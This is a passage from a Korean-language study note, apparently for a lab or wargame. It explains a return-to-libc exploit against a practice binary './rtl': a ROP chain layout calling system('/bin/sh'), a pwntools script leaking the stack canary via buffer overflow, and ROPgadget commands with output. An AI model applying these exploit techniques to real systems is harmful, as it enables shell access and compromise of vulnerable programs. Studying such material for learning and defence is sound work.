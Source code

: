     ```c
    addr of ("pop rdi; ret")   <= return address
    addr of string "/bin/sh"   <= ret + 0x8
    addr of "system" plt       <= ret + 0x10
    ```
    
- 대부분의 함수는 `ret` 로 종료되므로, 함수들도 리턴 가젯으로 사용할 수 있음

## 익스플로잇

### 카나리 우회

```python
#!/usr/bin/env python3
# Name: rtl.py
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)
```

### 리턴 가젯 찾기

- 일반적으로 `ROPgadget` 을 사용하여 리턴 가젯을 찾음
- `ROPgadget` 은 pypi를 이용하여 간단히 설치할 수 있음
  
    ```python
    $ python3 -m pip install ROPgadget --user
    ```
    
    ```python
    # 설치 확인
    $ ROPgadget -v
    Version:        ROPgadget v7.3
    Author:         Jonathan Salwan
    Author page:    https://twitter.com/JonathanSalwan
    Project page:   http://shell-storm.org/project/ROPgadget/
    ```
    
- 다음 명령어로 필요한 가젯을 찾을 수 있음
    - `--re` 옵션을 사용하면 정규표현식으로 가젯을 필터링할 수 있음
    
    ```python
    $ ROPgadget --binary ./rtl --re "pop rdi"
    Gadgets information
    ============================================================
    0x0000000000400853 : pop rdi ; ret
    ```
    